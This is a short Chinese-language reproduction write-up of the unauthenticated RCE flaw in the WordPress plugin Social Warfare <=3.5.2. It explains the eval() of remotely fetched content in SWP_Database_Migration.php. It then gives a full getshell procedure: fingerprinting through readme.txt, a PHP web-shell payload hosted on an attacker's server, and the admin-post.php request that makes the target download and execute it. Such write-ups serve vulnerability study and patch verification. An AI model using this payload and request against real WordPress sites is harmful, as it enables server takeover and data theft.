 ```yaml
---
title: "WordPress Plugin - Social Warfare<=3.5.2 RCE"
id: zhfly3245
---
```


# WordPress Plugin - Social Warfare<=3.5.2 RCE

## 一、漏洞简介

2019年3月21日插件作者紧急发布了3.5.3版本以修复高危的RCE漏洞，在<=3.5.2版本中存在一处无需登录即可getshell的RCE漏洞。

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

在/wp-content/plugins/social-warfare/lib/utilities/SWP_Database_Migration.php文件中有一处eval()函数，该函数将file_get_contents()读取的文件内容当做PHP代码执行导致RCE。

![image](../img/0f576f9770b0579dc3c05bea5d20f571.png)

### 漏洞利用

第一步：刺探是否安装了Social Warfare插件

访问

```
http://0-sec.org/wp-content/plugins/social-warfare/readme.txt 
```

如果存在readme.txt文件则说明已经安装该插件，并且从该txt文件中可获知插件的版本。

我的本机环境为3.5.2版本。

![image](../img/721382dbe06e141f412c6c138a6a3931.png)

第二步：在自己的VPS服务器上放置一个code.txt文件，并启动HTTP服务使该文件可通过HTTP访问。文件内容如下：

```
<pre>eval($_REQUEST['wpaa'])</pre> 
```

第三步：在未登陆任何账号的情况下直接访问如下链接即可getshell。

```
http://0-sec.org/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo(); 
```

![image](../img/3d05415b78769fa7512f977e7413cea7.png)
